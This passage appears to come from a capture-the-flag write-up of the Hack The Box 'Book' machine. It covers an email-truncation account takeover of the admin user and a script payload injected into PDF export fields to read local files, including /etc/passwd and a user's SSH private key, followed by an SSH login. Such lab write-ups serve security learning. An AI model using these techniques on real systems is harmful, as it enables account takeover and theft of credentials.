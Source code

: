 The string `admin@book.htb` is 14 characters long. So what will happen if we bypass client side restriction and register with email admin@book.htb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;q. The system will `truncate` the user to 10 characters and we can register as `admin` overwriting the current `admin` password. And then we can login to `admin` panel.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/book/admin.gif){: .align-center}
    
There is some kind of cleanup that is happening in the background. So you have to act fast, or the credentials become invalid.


### SSRF via XSS in PDF 

There is an option in `admin` panel to export the list of collections. This also contains the collections that are uploaded by user for moderation. I noticed that the attacker controlled fields `title` and `author` gets reflected in the `PDF`. 

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/book/pdf.png){: .align-center}

This [blog](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) talks in detail about a very interesting `SSRF` attack using `XSS` in `PDF`. 

The summary of the blog is that if our input is reflected in the `PDF` then We can inject custom `script` in the field to read local files. The following code can be used to read the `/etc/passwd` file.

```javascript
 <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc.passwd"); x.send(); </script>
```

Inspecting the output `PDF`, we can see the `passwd` file.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/book/passwd.png){: .align-center}
    
## Low Shell

There is a user named `reader`. Lets try reading the `ssh` keys using the same vector.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/book/sshkeys.gif){: .align-center}
    
And we have the `ssh` key. We can now login as `reader`.

```bash
kali@kali:~/Desktop/htb/book$ ssh -i id_rsa reader@book.htb
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 11 18:30:17 UTC 2020

  System load:  0.1                Processes:            143
  Usage of /:   26.5% of 19.56GB   Users logged in:      0
  Memory usage: 22%                IP address for ens33: 10.10.10.176
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

114 packages can be updated.
0 updates are security updates.

```